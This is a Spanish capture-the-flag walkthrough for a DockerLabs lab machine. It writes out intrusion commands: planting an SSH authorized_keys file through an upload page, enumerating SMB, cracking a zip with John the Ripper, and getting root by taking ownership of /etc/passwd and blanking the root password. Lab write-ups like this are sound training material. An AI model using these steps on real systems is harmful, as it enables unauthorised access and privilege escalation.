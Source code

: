 nmap: 80,22,139,445

![image](https://github.com/user-attachments/assets/c93e0c93-23ce-460d-b526-85e968e6f4ec)

---
en la pagina principal nos da:

![image](https://github.com/user-attachments/assets/fcc9059f-34dc-4407-a66f-0ffb9b1e35fe)

hacemos un gobuster:

![image](https://github.com/user-attachments/assets/3c562d69-2edd-486b-a1fd-1d4009b5bff6)

nos dio upload.php

![image](https://github.com/user-attachments/assets/4d4f493c-43c8-4824-b9c2-f362aa2990d4)

vuelvo hacer un gobuster pero agrego un .txt

![image](https://github.com/user-attachments/assets/3aab916e-3450-485c-8729-844555a092dd)

entramos y nos da

![image](https://github.com/user-attachments/assets/eabd553b-6926-48d4-ad8a-07d14d14bdf8)

Esto significa que si realmente se sube en ".ssh", podemos subir nuestro "id_rsa.pub" con el nombre "authorized_keys" y conectarnos sin necesidad de clave, nos faltaría usuarios 

pero podemos enumerar con: 
> enum4linux 172.18.0.2

nos da:

![image](https://github.com/user-attachments/assets/922a3b0b-ee7e-4809-bf6d-55356c4e5565)

creamos un id_rsa 

    ssh-keygen -t rsa -b 4096

![image](https://github.com/user-attachments/assets/3abfabf0-f121-40d6-987e-86224e2cba2f)

nos dara: id_rsa  id_rsa.pub  

pasamos la clave a un authorized_keys

![image](https://github.com/user-attachments/assets/8ab00440-e29b-4c45-b999-d7b5cb3914d4)

le damos permisos: 
> chmod 600 id_rsa 

subimos el authorized_keys

![image](https://github.com/user-attachments/assets/bdc38c49-08c0-4727-abc3-53421d68aab4)

ahora en el terminal colocamos: 
>  ssh passsamba@172.18.0.2 -i id_rsa

 estamos dentro

![image](https://github.com/user-attachments/assets/e3f79d3c-7b47-433b-b866-849bcbae20db)

al hacer un "ls", nos da esto:
>cat note.txt

![image](https://github.com/user-attachments/assets/02e6ce37-d644-425f-ba73-bd0b01b4a1a4)

por la similitud  con  un nombre de usuario, probamos como contraseña:
> su sambauser / sambaarribasiempre

y ahora somos sambauser

como no hay nada, encontré para ver posibles directorios:

    smbmap -u "sambauser" -p "sambaarribasiempre" -d workgroup -H 172.19.0.2

![image](https://github.com/user-attachments/assets/c56356f7-e265-4009-b2be-75228b56496c)

nos dio dos:
> read_only_share

nos conectamos como clientes.

    smbclient //172.18.0.2/read_only_share -U sambauser -W workgroup  

la contraseña es la misma y dentro nos pasamos con get el zip que hay

![image](https://github.com/user-attachments/assets/4078231a-b32e-45f9-a536-865b0c8d77e4)

como pide contraseña la sacamos:

    zip2john secret.zip > hash.txt 
    john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    
> contraseña: qwert

![image](https://github.com/user-attachments/assets/5d72b198-dbda-48ca-971d-6e71aa66eee1)

le colocamos al txt cat y nos da:
> root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==

en la misma terminal colocamos:
> echo "cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==" | base64 -d

nos da la contraseña

![image](https://github.com/user-attachments/assets/7e47d33d-2cf5-4fea-9411-068ca33b6998)

entramos por ssh en una terminal y colocamos la contraseña con el usuario "root-false"

dentro hay un: message.txt que dice:

![image](https://github.com/user-attachments/assets/4ee839aa-948b-44f5-8945-716001247013)

encontramos esto

![image](https://github.com/user-attachments/assets/be0d2017-31f6-44c3-852f-6563801c2187)

ejecutamos el comando

     curl -vvv -d 'username=mario&password=pinguinodemarioelmejor' http://10.10.11.5

lo que lanzamos es lo del mensaje que vimos 

![image](https://github.com/user-attachments/assets/8d68948b-03ab-4824-a5f2-abd41ec454d2)

lanzamos:

     curl -vvv http://10.10.11.5/super_secure_page/admin.php/

si se hace un: curl -v 10.10.11.5
nos mostrara código de una pagina que contiene un login en el puerto 80

hacemos este comando: 
> ssh root-false@172.18.0.2 -L 9090:10.10.11.5:80

y nos conectaremos otra vez

![[dockerlabs/dificil/r00tless/conexion2.png]]

nos vamos a firefox y buscamos esto:
> http://127.0.0.1:9090/

no me funciono pero del codigo anterior vi un "ultramegatexto.txt", lanzamos el siguiente comando

    curl http://10.10.11.5/ultramegatextosecret.txt


nos dio:

![[ultra.png]]

nos dará la pagina de login - admin
en el texto hay parte que me llamo la atención que parece contraseña que dice:
> Cristal_de_la_Aurora

la probamos en el usuario less que sale al final del texto.
y somos el usuario less 
al hacer sudo -l nos da: chown

![[conexion3.png]]

buscando encontré que podemos cambiar al propietario de la carpeta /etc/passwd
con este comando: 

    sudo chown less:less /etc/passwd

ahora hacemos un:

    nano /etc/passwd

![[Pasted image 20250115194824.png]]

![[dockerlabs/dificil/r00tless/cat.png]]

le quitamos la "x" a root 
guardamos y ejecutamos

![[dockerlabs/dificil/r00tless/root.png]]

su root
somos root! 
